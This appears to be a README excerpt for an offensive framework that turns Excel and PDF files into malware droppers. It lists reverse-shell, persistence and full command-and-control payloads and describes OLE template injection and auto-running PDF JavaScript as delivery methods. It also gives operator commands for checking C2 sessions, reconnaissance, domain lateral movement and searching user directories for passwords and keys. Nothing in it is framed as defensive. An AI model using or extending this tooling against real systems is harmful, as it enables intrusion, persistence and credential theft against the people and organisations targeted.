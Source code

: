 The payload numbering is:
```
    1 = Reverse Shell (raw TCP)

    2 = RCE + Persistence (HTTP C2)

    3 = Full C2 Agent (advanced HTTP C2)
```
    
## Document Types & Capabilities

### Excel Documents (.xlsx)
- **Technique**: OLE Template Injection
- **Trigger**: Document opening + "Enable Content"
- **Detection**: Microsoft Excel User-Agent
- **Persistence**: Excel-specific startup scripts
- **Advantages**: Higher success rate in corporate environments

### PDF Documents (.pdf)
- **Technique**: JavaScript payload execution
- **Trigger**: Document opening (auto-executes)
- **Detection**: Adobe Reader User-Agent
- **Persistence**: Reader-specific update mechanisms
- **Advantages**: No "Enable Content" prompt needed

## C2 Operations

### Monitoring Connections

#### For Reverse Shell:
```bash
# Connections appear automatically in the C2 server console
[+] Reverse shell connection from 192.168.1.100:51542
```

#### For RCE/Full C2:
```bash
# Check active sessions
curl http://localhost:8080/c2/sessions

# View server statistics
curl http://localhost:8080/admin/stats
```

### Example C2 Commands

```bash
# System reconnaissance
whoami
systeminfo
ipconfig /all

# Lateral movement  
net view
net user /domain

# Data collection
dir C:\Users\ /s | findstr "password|secret|key"
```
